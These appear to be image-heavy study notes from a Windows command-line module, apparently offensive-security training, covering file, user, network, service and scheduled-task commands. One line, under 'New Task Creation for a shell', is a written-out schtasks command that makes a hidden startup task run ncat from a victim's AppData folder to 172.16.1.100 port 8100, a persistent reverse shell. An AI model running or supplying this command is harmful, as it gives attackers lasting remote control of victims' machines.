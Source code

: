    

Introduction to Windows Command Line

Admin Commands  
![b40ece0012dcdbe6e73f12782a000306.png](4a361cf50d8540dda1a288fa9bfb2644%201.png)

---

Terminal Commands (Navigating within a cmd shell)  
![3bec8a19a36b7eb1c96bacb70f92a9cf.png](845af6e37be64631b0b2641c19f137a9.png)

---

Input/Output Operators (Parameters to utilize)  
![111ca71eb5b7a97807b588e7beea3ea2.png](c06ed640e14c4c148926f3b7601175f1.png)

General Commands for both CMD/PS  
![b315aa8d45ce5cbec4276be6fb270dee.png](bd01aa9ec52e425886f0f9235512ebdc%201.png)

File & Directory Commands (CMD)  
![3cab7ac3abfdd263d45718de87f2e780.png](4fc06b0783b1421cb40d81681d1d7df3.png)

![21117d453d0a09c596c287413f30a934.png](f8a479b168834266a7f854ad1c18cfae.png)

![c31475a8ac860d6ea6dd8f264a85277b.png](601fe82e47dc417996f8f5b22b247a6e.png)

![c76a53fd102c53ee05b18b1697f1cebf.png](5bd86bb5f73243ecb1b126be4594d73b.png)

Find & Filter Content (CMD)  
![29fd1831e30f70fc9013a92f9df9b5a6.png](e11ec15ff3cf4ecdbfb7e0ed272565ac.png)

- Recursive Where syntax  
    ![c624dfcc9f92958cd6f51d7178ebe478.png](fd7acd83c9bd4c9b948afa0c5bb845a2.png)
- Wildcard  
    ![c4cc8c098a245c444efb60e001cfa750.png](bb3b9857642d485aa714aa81f6fdca7c.png)
- Basic Find  
    ![22e7fb817351660866f3fc804dcacd1c.png](fb7317f860bc4afeb6fccbe5269a673d.png)
- Find Modifiers  
    ![df4e9849181680c5236b81c9d23328c6.png](61802c6c2dd640fc82616edd7890d14d.png)

![a16b122ca80d65e6a08cc47f3c6dcd5c.png](e909ab99bf29405e8d6ac95882b47290.png)

Evalutating & Sorting Files

- Comp command  
    ![6a00bd1b631c847c9b336455c17b9f1c.png](257e369c49714bcaa32a66a30acefc7e.png)
    
- fc command  
    ![7ebdd2bf667865866e093fa99f2f7423.png](5f24a4b44cec40a6a42f30827068a850.png)
    
- Sort command  
    ![708161ca5c16b4ad6273798ff1878b6d.png](8451acc7839a4c7f9f7c48d99082251b.png)
    
- unique command  
    ![cf575710d4b46a82476f157bd7887ef8.png](ed0d077915b041c287bdbe0a38670b0d.png)
    
- What types of information can we gather once in the system?
    

Breakdown of the information gathered  
![d959782fe0f4ab05fdfab70bc7e42c92.png](c90e3581441d4978b2889322ca3443ae%201.png)

Example of a task  
![6f6fef7c885a4a5f712b29d54c858a31.png](ba87b0ed483d4df980fdf925e5b7a0ea%201.png)

![a90f844de1d12a2b7e0f610dc38c4627.png](f3e7c67024664f1d83a8766af09baa27%201.png)

How Do We get this information?

User Commands (CMD)  
![f319885a657f565bd5358f876ac9ffdd.png](71081cd4de3f475bad75841c3b69be01.png)

Network commands (CMD)  
![d1805e69b95f52b8e216aac67ea63065.png](2a9c422eb9304354aba03563b71cd6cd.png)

NOTE:  
![5273928ed662c584ddf18dbfbaf7547e.png](c3eec2015bb84c40a3f069d8acf2727e.png)

Service Commands (CMD)  
![1409db73761a5330ef83c287937f1c6a.png](fa86ab21370d49febaf28386a2526f1c.png)  
![59ba02fe6942e7973f1f1811be71edab.png](a6f88416d619492da77d707b9210dcae.png)

Querying for Active Services  
![b878f86b1a345e0ef79e329d4192a1ef.png](cc830ff3323444e4b9897f2b93651cd0.png)

NOTICE  
![797e09e081381a03ce8acdaae23062c7.png](7ebe586b070543dc8aa45e53a03a2b76.png)

Window 10 and above  
![6c8a6ae48554d5694a9582f4c84b5f80.png](987252ace5764dff91922961da1ae28e.png)

Scheduled Tasking  
![718f49cf6cfe61d75d2150ca78eee978.png](324151138adb4abca2b8f1684838e7f4.png)

Scheduled Task Commands  
![44e1163dbf9f3f0ab73bc43115ba9f0b.png](d54c8b8ccb954cccb84ca733812a32dd.png)

Query Syntax  
![e225d3ec3edc64b25169125deaa34a7d.png](29c5353efd6b4c4a9ca2b6f90e7b5f9a.png)

Create Syntax  
![05d08f2b6a95e2a1a07155284d17a77b.png](07583b525a504eedb8c9d57f75280881.png)

- Creating a New Task requires the following at minimum:
    - /create : to tell it what we are doing
    - /sc : we must set a schedule
    - /tn : we must set the name
    - /tr : We must give it an action to take

New Task Creation for a shell

`schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\Appdata\Local\ncat.exe 172.16.1.100 8100"`

Change Syntax  
![c9e38c943c215972f8d355311039621f.png](e3fab631eeb947fbac36ba350d286702.png)

Change Syntax to add Admin and pw  
![d95cb381dcc506a9230182efe56fe702.png](7f1d38ac3e1e4ab482bbd743bca54b00.png)

Delete Syntax  
![460f263b3153fefe11d8b2d12775b4d3.png](7d81cd1e48a84b71b747148d8bd4dd5f.png)

Environmental Variables  
![7766b61856bd6f27cccc17596fb8de88.png](46a02bd774f1492e82033a4c36e08c1b.png)

- On Windows host, env. variables are not case sensitive
- No name that start w/ a # or includes an equal sign  
    ![f0f0f9ea034c6f2965741453c286f975.png](e77204e4a6ff4bbe8a7570352d9e5086.png)
- Create a variable  
    ![a699eac65d7430bdcd3b4a760aea0a11.png](9eed208c17ef4bd082ce14ef3c5fe283.png)
    - set only affects the current session
    - setx can make permenant changes  
        ![379efd746c2b71726c46ea0df15ab85b.png](a305c0e132724a35ac6cdce9f4e74601.png)
    - This change will be validated only after open another cmd session
- Editing Variables  
    ![5849a283f27e7bf749051fdfd0bddd71.png](2393aae6cdb5464fb5d922f8db38ba04.png)
- Removing Variables  
    ![52746cba9b644c9f20d5b30dbb021c82.png](2fa4b32adc32480092310af81d62802c.png)

---

Scopes  
![ef5388a603484062b930a6a472af6013.png](26656939619b4620a8d35fb7db24749c.png)

![3faf1585d0e1dd39a8be8576fa8629cf.png](0cd4bb81b1344cdd8bbae94475871161.png)  
![2c50f27a9d6b893b586b25fa0ecfb12d.png](0e02d1b366a948eb92da8a3c68eb6a52.png)  
![f9555bbe00d61c06736562196f2ba30b.png](d4fa9e704e4c4c34a59f628dbe35ecb8.png)

Interesting Directories  
![d52e6da646e3fb4137dce932f037bcd3.png](34df72456e7b49619a616dc0d8dd6e28.png)

![480e2f90f1d3493df50d764d48528184.png](0d86f595d8044e35a184e7f57f1b31e5.png)